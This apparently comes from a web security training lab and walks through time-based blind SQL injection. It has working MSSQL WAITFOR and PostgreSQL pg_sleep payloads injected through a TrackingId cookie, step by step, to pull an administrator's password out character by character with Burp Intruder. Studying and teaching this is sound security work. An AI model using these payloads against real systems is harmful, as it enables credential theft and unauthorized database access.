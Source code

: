 # Exploiting blind SQL injection by triggering time delays

The techniques for triggering a time delay are specific to the type of database being used. For example, on Microsoft SQL Server, you can use the following to test a condition and trigger a delay depending on whether the expression is true:

```
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

The first of these inputs does not trigger a delay, because the condition 1=2 is false.
The second input triggers a delay of 10 seconds, because the condition 1=1 is true.

Using this technique, we can retrieve data by testing one character at a time:

```
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

*NOTE*
*There are various ways to trigger time delays within SQL queries, and different techniques apply on different types of database. For more details, see the SQL injection cheat sheet.*

## Solving the Lab: Blind SQL injection with time delays and information retrieval

- Modify the TrackingId cookie, changing it to:

```
TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

Verify that the application takes 10 seconds to respond.

- Now change it to:

```
TrackingId=x'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

Verify that the application responds immediately with no time delay. This demonstrates how you can test a single boolean condition and infer the result.

- Now change it to:

```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

- The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to:

```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

This condition should be true, confirming that the password is greater than 1 character in length.

Continue sending this request to get the correct length of the password

- After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use Burp Intruder. Send the request you are working on to Burp Intruder, using the context menu.

- In Burp Intruder, change the value of the cookie to:

```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

- To be able to tell when the correct character was submitted, you'll need to monitor the time taken for the application to respond to each request. For this process to be as reliable as possible, you need to configure the Intruder attack to issue requests in a single thread. To do this, click the **Resource pool** tab to open the Resource pool side panel and add the attack to a resource pool with the Maximum concurrent requests set to 1.

Launch the attack by clicking the  Start attack button.

Review the attack results to find the value of the character at the first position. You should see a column in the results called Response received. This will generally contain a small number, representing the number of milliseconds the application took to respond. One of the rows should have a larger number in this column, in the region of 10,000 milliseconds. The payload showing for that row is the value of the character at the first position.

Now, you simply need to re-run the attack for each of the other character positions in the password, to determine their value